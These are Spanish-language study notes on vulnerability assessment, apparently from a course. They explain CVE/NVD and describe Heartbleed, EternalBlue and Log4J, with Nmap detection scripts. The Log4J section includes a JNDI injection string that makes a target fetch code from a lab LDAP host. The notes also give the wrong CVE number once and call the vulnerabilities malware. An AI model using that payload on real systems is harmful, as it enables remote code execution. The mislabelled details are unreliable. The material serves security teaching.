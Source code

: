 # Assessment Methodologies: Vulnerability Assessment
# Indice

- [Introduccion](#introduccion)

---
---

# Introduccion

En este modulo haremos una pequeña introduccion a algunas vulnerabilidades, entre ellas veremos algunos casos de estudio como:
- Heartbleed
- EternalBlue
- Log4J

Y practicaremos en laboratorios algunas aplicaciones:
- Nessus
- ExploitDB

# Vulnerabilities
## ¿Que es una vulnerabilidad?

Una vulnerabildad es una deficiendia en la logica de la computacion que se puede encontrar en software y en el harware, y que cuando esta se explota puede causar un impacto negativo en la confidencialidad, integridad y disponibilidad.

Pueden ser vulnerabilidades fisicas como controles de acceso, sistemas de energia de emergencia... Recordar que la ciberseguridad no solo engloba las intrusiones que se pueden hacer via software o por red, sino que tambien puede ser que alguien entre fisicamente y robe unos HD o inserte un malware via un usb.

Las vulnerabilidades de una maquina pueden ser debidas a algun software instalado en la maquina o al propio sistema operativo.

## CVE Program

Es una institucion que se encarga de registrar las vulnerabilidades que se van descubriendo. [WEB](https://cve.mitre.org/cve/)

Los CVE tienen un identificador unico que identifica a las vulterabilidades.

Ejemplo: `CVE-2021-4428` --> es el identificador para la vulnerabilidad del log4J

- En las paginas de detalle de cada vulnerabilidad podremos encontrar:
    - Descripcion.
    - Severidad.
    - Referencias.
    - Listado de debilidades.
    - Configuraciones de software afectadas conocidas.

- Para encontrar vulnerabilidades hay una serie de cosas que podemos hacer:
    - Scanning
    - Asset Identification + Research
    - Fuzz Testing

## NVD National Vulnerability Database

Es otro registro muy parecido al CVE.

## Zero Days Attacks

Son vulnerabilidades que nadie ha reportado, por lo que si encontraramos alguna es recomndable reportarla para ayudar a la comunidad.

## Capa 8, la gente

Las habilidades para conseguir informacion de las personas o que hagan cosas que nos interesas tambien se considera una vulnerabilidad a explotar, como por ejemplo la ingenieria social.

---
---
# Casos de malwares conocidos
## Heartbleed 

- *cve-2014-0160*

- [Extra info](https://heartbleed.com/)

Afecta a la librería OpenSSL, permite robar la informacion protegida permitiendo leer la memoria de sistemas con versiones vulnerables de este software enviando un **"crafted packet"**.

Las siguientes versiones de OpenSSL estan afectadas:

- OpenSSL 1.0.1 through 1.0.1f
- OpenSSL 1.0.2-beta through 1.0.2-beta1

Basicamente lo que se hace es crear un paquete como el de la imagen, donde se pregunta **"Hey, la contraseña es HotPan123!@#  ?"** al servidor, pero ademas en el paquete se le dice que la password tiene longitud, y esta es la vulnerabilidad. 

En este punto el servidor comprobará en su memoria la variable de la contraseña y si es correct la devolverá, pero toda la longitud que sobrepase la longitud de la contraseña la cogerá de la siguiente informacion que haya haciendo un overflow y dandonos informacion de mas.

![heartbleed](img/heartbleed-1.png)

![heartbleed](img/heartbleed-2.png)

### Como ver si un servidor es vulnerable a HeartBleed

Se puede usar el siguiente script de nmap para ver la version del SSL:
- `ssl-enum-ciphers`

Tambien hay disponible un script de Nmap que nos dice directamente si un servidor es vulnerable o no:

- `ssl-heartbleed`

## EternalBlue
- *CVE-2017-0143*

Es una vulnerabilidad que afecto a hospitales, gobiernos, organizaciones... durante una buena parte del año 2017. Este fue creado por la NSA (National Security Agency) y se filtro por el grupo de hackers **The Shadow Brokers**, este lo utilizo **Wanacry**  el 12 de mayo de 2017 para hacer un ataque mundial de rasomware. 

Es una vulnerabilidad que afecta a SMBv1 permitiendo ejecutar codigo en un ordenador a partir de paquetes especificos aprovechandose del overflow, de esta manera se puede ejecutar cualquier cosa, incluido conseguir una revertshell.

### Como ver si un servidor es vulnerable a EternalBlue

Tenemos un script especifico de Nmap (como no):
- `smb-vuln-ms17-010`

## Log4J
- *CVE-2021-44228*

Es una librería que se usa para loguearse en Java que tiene una vulnerabilidad que a traves de un servidor LDAP se puede ejecutar codigo en la maquina victima.

Aprovecha una vulnerabilidad que permite inyectar codigo en un input de login con el siguiente formato -->`${jndi:ldap://demo.ine:1389/mycode}`, este codigo, la sentencia **jndi** hace que cargue codigo de un servidor **LDAP** que el atacante tendría alojado, en este caso ejecutaría "**mycode**".

![log4j](img/log4j-1.png)

# Nessus Lab

Nessus es un programa de interficie grafica que nos ayuda a hacer una serie de escaners para detectar vulnerabilidades.